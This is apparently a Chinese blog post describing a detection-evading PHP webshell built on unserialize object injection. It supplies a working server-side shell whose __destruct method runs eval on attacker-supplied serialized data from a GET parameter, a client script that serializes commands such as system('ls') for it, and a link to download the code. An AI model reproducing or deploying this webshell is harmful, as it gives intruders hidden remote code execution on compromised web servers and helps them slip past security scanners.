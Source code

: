 ```yaml
---
layout:     post
title:      unserialize免杀webshell
date:       2017-04-18
summary:    unserialize免杀webshell
categories: web
tags:
 - unserialize
 - php
 - webshell
---
```


### php的unserialize函数

```
php的unserialize反序列化函数可以将反序列化后的结果还原成数字,字符,数组,对象等类型,如果还原后的结果是对象且这个
对象对应的类有__wakeup,__destruct等函数,那么在unserialize函数执行后将执行对应的函数(__wakeup,__destruct等)

refer:
http://www.91ri.org/3960.html
https://www.owasp.org/index.php/PHP_Object_Injection
```

### 利用unserialize构造webshell

#### 服务端[webshell]

```
<?php

class foo{
    public $data="text";
        function __destruct()
        {
            eval($this->data);
        }

}

$file_name=$_GET['id'];
unserialize($file_name);
```

#### 客户端[相当于菜刀]

```
<?php

class foo{
    #public $data="phpinfo();";
    public $data="system('ls');";

}
$a=new foo;
$b=serialize($a);
echo "please visit uri:\n"."[your shell page url]"."?id=".$b;
```

#### 理解

```
服务端被访问后在内存中有一个foo类模板,当客户端伪造一个同名的叫做foo的类的对象的序列化后的结果给服务端反序列化时
,服务端在反序列化这个这个传入的反序列化值后将认为这是当前内存中对应的foo类模板的一个实例对象,于是去执行当前内存
的foo类模板的__wakeup,__destruct等函数,但是恰好这些函数会造成php代码执行[eval($this->data)],且$this->data可控.
```

本文代码对应下载链接如下
<a href="https://github.com/3xp10it/xwebshell/tree/master/unserializePHP">download</a>
